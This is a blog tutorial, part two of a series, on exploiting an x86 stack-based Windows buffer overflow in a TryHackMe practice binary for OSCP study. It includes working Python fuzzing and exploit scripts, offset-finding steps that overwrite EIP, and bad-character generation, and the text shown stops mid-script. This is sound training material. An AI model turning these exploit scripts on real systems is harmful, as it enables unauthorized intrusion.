This tutorial is part two of a two part series that focuses on binary exploitation, in particular on x86 stack-based Windows buffer overflows. The first part of the series focuses on the theory behind the topics that will be described in this tutorial, and can be found [here](./2022-02-25-x86-windows-buffer-overflow-pt1.html). The information provided in this blog is based on the notes and cheatsheets I wrote while studying for the Offensive Security Certified Professional (OSCP) exam. My goal of this series is to make sure everyone (OSCP student or not) can understand and exploit a simple x86 stack-based buffer overflow in Windows. 

Offensive Security announced [changes](https://www.offensive-security.com/offsec/oscp-exam-structure/) to the structure of the exam, and no longer guarantees the presence of a stack-based buffer overflow during the exam. However, there is still a possibility that a buffer overflow will show up during the exam. As these buffer overflows are very easy as long as you follow a step-by-step approach, I decided to provide this walkthrough in order to help out everyone that still struggles with the buffer overflow. 

Listed below you can find some useful resources I used to practice x86 stack-based buffer overflows:
- [Step-by-step guide on bufferoverflows by The Cyber Mentor](https://www.youtube.com/watch?v=ncBblM920jw&ab_channel=TheCyberMentor)
- [TryHackMe room that can be used to practice OSCP-like buffer overflows by Tib3rius](https://tryhackme.com/room/bufferoverflowprep)

In order to effectively and efficiently complete any simple x86 stack-based Windows buffer overflow (such as the ones within the OSCP-exam), we have to follow a step-by-step approach. The steps include:

1. Fuzzing and finding the correct offset;
2. Finding bad characters;
3. Finding a jump points;
4. Generating shell code;
5. Exploitation.

These steps will be elaborated below. 

## Setting up a testing environment
Before we can start analyzing the buffer overflow we first have to set up a testing environment with the tools that we are going to need. A basic testing environment that suffices for an OSCP buffer overflow would consist of a Windows 7 or Windows 10 virtual machine with Immunity Debugger installed in conjunction with the Mona extension. Microsoft offers a 90 day trial license for Windows 10 Enterprise [here](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-10-enterprise). If you prefer a Windows 7 setup, an image can (at time of writing) be downloaded from [here](https://tech-latest.com/download-windows-7-iso/). 

Next up, [Immunity Debugger](https://www.immunityinc.com/products/debugger/) and [Python](https://www.python.org/downloads/) should be installed. Lastly, Mona.py should be downloaded from [this github repository](https://github.com/corelan/mona), and can be installed according to the provided installation instructions. 

If you want to dive deeper into the world of buffer overflows, reversing or other (binary) analysis, I would recommend to set up a Windows 10 VM with [Mandiant's Flare-VM](https://github.com/mandiant/flare-vm). Make sure your VM has access to the recommended system resources prior to running the Flare-VM installation script. 

For the sake of this tutorial and to minimize connectivity issues, I will be working with the pre-setup Windows 7 VM available at Tib3rius' Buffer Overflow Prep room over at TryHackMe. I will be using my own Kali Linux VM to write the Python code at, and use RDP from this VM to access the Windows 7 workstation. Let's take a look at the first step of the process - which is fuzzing the application.

## Getting Started
Today we will be starting off with OVERFLOW10, which is part of [Tib3rius' Buffer Overflow Prep room](https://tryhackme.com/room/bufferoverflowprep) over at TryHackMe. You can register an account for free, after which this room becomes available for you. Once you hit "Start Machine", a Windows VM will be available for you which contains several vulnerable binaries and the necessary tools to exploit them. You can also just download these tools to your own box and analyze/exploit them there. 

After launching the machine and downloading the TryHackMe .ovpn configuration file, we can get access to the system by connecting to the VPN.

```sh
sudo openvpn [username].ovpn
```

Now we can connect to the virtual machine. I personally use rdesktop to do so, as you can provide a directory to your remote desktop session that will be shared between the host and the VM. This enables easy file copying.

```sh
rdesktop -r disk:tmp=. 10.10.226.144 -u admin -p password
```

As we supplied "-r disk:tmp=." we now find a drive called "tmp on kali" in our PC overview. We can add files to our current directory on the kali machine and access them at the Windows box, or we can copy files from the Windows box to our Kali VM. 

When we take a look at the desktop we can see a folder called "vulnerable-apps", which contains a sub directory called "oscp". The "oscp" sub directory contains an oscp.exe and a essfunc.dll. These are the files we will be working with. When we launch the oscp.exe application we see the following terminal pop up.
<p>
	
</p>
The program tells us that it is listening on port 1337, and that it is waiting for client connections. If we were to scan all open ports through nmap

```sh
nmap -p- 10.10.226.144
```

We would find the box listening on an unusual port 1337 as well.

```text
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
554/tcp   open  rtsp
1337/tcp  open  waste
2869/tcp  open  icslap
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
10243/tcp open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown
```
Another way we could find out on what port the application is listening, is through netstat. We can first run netstat when the application isn't running and look at the ports. We then run the application again, and look at what extra port is listening. You can use this syntax.

```sh
netstat -ano | find "LISTEN"
```

Which shows us the following list.
<p>
	
</p>
Okay now that we know on what port the application is listening, we should try to figure out what it's doing. Let's use netcat from our kali VM to connect to the application and look at its interface.

```sh
nc -nv 10.10.226.144 1337
```

Which shows us the following interface.
<p>
	
</p>
We can see that we can use the HELP command to get help. When we issue this command, we find the 10 vulnerable OVERFLOW commands as well. In this tutorial we will be focusing on the OVERFLOW10 command, but I encourage you to do some of the others yourself. Let's quit out of the application and open it in Immunity Debugger

## Introduction to Immunity Debugger
Immunity Debugger is present on the desktop of the Windows machine. Open Immunity Debugger as administrator (important, because we need to be able to see as much information about the binary as possible). Whenever I launch Immunity Debugger I start off with three things.

1. Attach the program that we will be analyzing.
	* File --> Open --> oscp.exe.
2. Set the font to 6, as the default font is difficult to read.
	* Right click the top left black window --> Appearance --> Font --> Font 6
	* Right click the top right black window --> Apperance --> Font --> Font 6
3. Create a work directory in Mona.
	* !mona config -set workingfolder c:\\mona\\\%p

By creating a Mona workspace, we ensure that Mona saves all files it creates in a working directory called c:\\mona\\program. 

We should now have access to an interface similar as to the one in the image below. 
<p>
	
</p>
Let's go through a quick rundown of the Immunity Debugger. 
<p>
	
</p>
Going from left to right, the first buttons allow us to restart, close, run and pause the program. The next buttons allow us to move through the process in a step by step manner. We can either move one instruction up or one instruction down. We can use the last button to go to a specific address within the process. Next up, we have the instructions.
<p>
	
</p>
This overview allows us to take a look at the instructions that are executed one by one by the process. We can see their corresponding memory addresses, and a hex dump / ASCII representation of what is happening in memory at those specific addresses. Next, we have the registers.
<p>
	
</p>
This overview shows the different CPU registers and their current contents, we can see the EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI and EIP registers in the top window, and at the bottom window we find the memory stack. 

Finally, at the bottom right we can see the word "Paused", meaning that the application is currently not running. We can press f9 or click the "run program" button to get it running. Now that we have a basic overview of the Immunity Debugger, we can get into the first step of the exploitation process, which is fuzzing. 

## Fuzzing
The first part of the buffer overflow is to fuzz the application in order to find out whether a buffer overflow vulnerability exists, and if it does, where exactly it occurs. As we have seen in part 1 of this series, buffer overflows are often caused by unregulated user input within a specific function. When we sent 20 characters to a buffer, the program crashed. In that case, the buffer was very small. In this example, we will have to find out at what amount of bytes the buffer overflood. To do this, we can use the following Python3 script.

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.226.144"

port = 1337
timeout = 5
prefix = "OVERFLOW10 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

The script above will use the Python socket library to interact with the socket of the vulnerable application. We have to specify the IP address of the server at which the application runs, and its port. As we saw before, the process is running on port 1337, and the IP address will be the IP address which you used to connect to the Windows box. 

As we are dealing with user input to a vulnerable function, we will likely have to specify a prefix in order to invoke the function. Like before, we saw that we had to type "OVERFLOW10 " to interact with the program, thus we will add this as a prefix here. 

The script will then send the prefix, together with 100 A's to the socket in a while loop, and continue adding 100 A's until the program crashes. We will then have a general feeling about how large the vulnerable buffer is. 

Let's run the binary, run the Python script and look at the results. After sending 600 bytes, the 5 second timeout was reached, meaning the program crashed. We can see that here.

```sh
python3 fuzzer.py                          
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing crashed at 600 bytes
```

When we take a look at the Immunity Debugger, we can see that it hit an "access violation when executing \[41414141\]"
<p>
	
</p>
We can see that the stack is all filled with A's, that the EDX, EBX, EBP and EIP are filled with A's as well. The program is trying to jump to the next instruction at 0x41414141, but there is no valid instruction so it crashes. 

To find out exactly where the process crashed, we can use a string composed of unique patterns, allowing us to figure out exactly at what position within the string the process crashed. For this, we can use two Metasploit utilities (which are allowed to be used for the OSCP), named pattern_create.rb and pattern_offset.rb. 

```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```

We specify the length of the string using the -l flag. I usually take the amount of bytes at which the program crashed, and add 400 bytes to it, just to make sure that I will succesfully capture the crash. When we look at the output, we see the following string.

```text
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B
```

We can see that the pattern is carefully generated. To find the exact crash, I will introduce the second Python3 script that we will be using.

```python
import socket

ip = "10.10.226.144"
port = 1337

prefix = "OVERFLOW10 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Here we will once again use the socket library to set up a connection to the program, but instead of fuzzing it, we will send the whole payload at once. Thus, we have to supply the IP, port and prefix as before, but now we add the payload (which is our generated string) as well. It will then create a buffer by adding the prefix, overflow, retn, padding, payload and postfix together, and send it to the process. 

For now we do not have to supply any data for the offset, retn, padding or postfix. In cases where the application does not respond to our exploit script, we possibly have to add a carriage return (CR) or line feed (LF) to move forward one line. This would mean adding \\r\\n to the "postfix" section. 

To ensure the binary is in its original state, we reopen the oscp binary in Immunity Debugger by navigating to open --> oscp.exe, and press f9 to run the binary. We then run the exploit script and look at the results.

```sh
python3 exploit.py 
Sending evil buffer...
Done!
```

We can see that the exploit succeeded, and that the process crashed again in a similar way as before.
<p>
	
</p>
The only difference now is that we do not just see A's in the registers and in the stack, but we can see the pattern that we sent. We can now use Mona (a Python extension for Immunity Debugger) so find the offset at which it crashed. For this we issue the following command in the bottom of the Immunity Debugger, where -distance is set to the length of the buffer that we previously generated.

```text
!mona findmsp -distance 1000 
```

When we press enter, Immunity Debugger will be looking through the memory to find the offset patterns. This can take a short while. As we haven't set the font for this pane yet, we can once again set it to font 6 by right clicking --> apperance --> font --> font 6. We can see that Mona found the offset.
<p>
	
</p>
We are interested in the EIP, or the extended instruction pointer. If we can overwrite the address of this pointer, we can control what instructions the program will execute next, meaning we can possibly make it execute malicious code. We see the following line.

```text
EIP contains normal pattern : 0x41397241 (offset 537)
```

Now that we found the EIP offset (537), we can add this offset to our Python script. We can then add "BBBB" to the retn variable, like so, and empty our payload. 

```python
import socket

ip = "10.10.226.144"
port = 1337

prefix = "OVERFLOW10 "
offset = 537
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""
[...]
buffer = prefix + overflow + retn + padding + payload + postfix
[...]
```
We can see that the buffer consists of the prefix, overflow, retn, padding, payload and postfix as before. But now that we set the offset, overflow will contain 537 A's, after which 4 B's will be sent. We have to send 537 A's in order to get to the EIP, and we then send 4 B's to fill the EIP with B's. Let's see if this works. We restart the program again, and run the script. We can see that the program crashed.
<p>
	
</p>
We overwrote EBX and EBP with A's (0x41), but EIP has the value 0x42, which is the B. We now know for sure that we are able to control the EIP value, thus control what instruction the program will execute next after dealing with our buffer. 

## Finding Bad Characters
So far we managed to overflow the application and find its offsets, now we are going to figure out what characters we are allowed to use in the shell code that we will be generating later. Some characters are used for specific functions, such as the null byte (0x00) for example. The \\x00 byte represents the string termination point or delimiter character which tells the program to stop processing the string immediately. If we add this byte to our shellcode, it will likely stop processing our code as soon as it sees it. As different programs use different bytes for special functions, we will have to figure out what characters to exclude from our shell code for this specific application. To do so, we can once again use the Mona extension. Let's restart the application and run the following Mona command.

```text
!mona bytearray -b "\x00"
```

This command generated a bytearray with all possible bytes in it, excluding (in this case), the \\x00 byte or null byte. As we set up a working directory before, the bytearray will be saved in this working directory as the bytearray.txt file. We will generate a string of bad characters, use it to crash the program and ask mona to compare our payload with its bytearray, to figure out what bytes aren't interpreted the way they should be by the application. To generate a list of bytes, we use our third and final python script.

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Which outputs a string of all possible bytes, excluding the null byte.

```text
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

We add this string to our payload in our exploit script like so.

```python
import socket

ip = "10.10.226.144"
port = 1337

prefix = "OVERFLOW10 "
offset = 537
overflow = "A" * offset
retn = "BBBB"
padding = ""
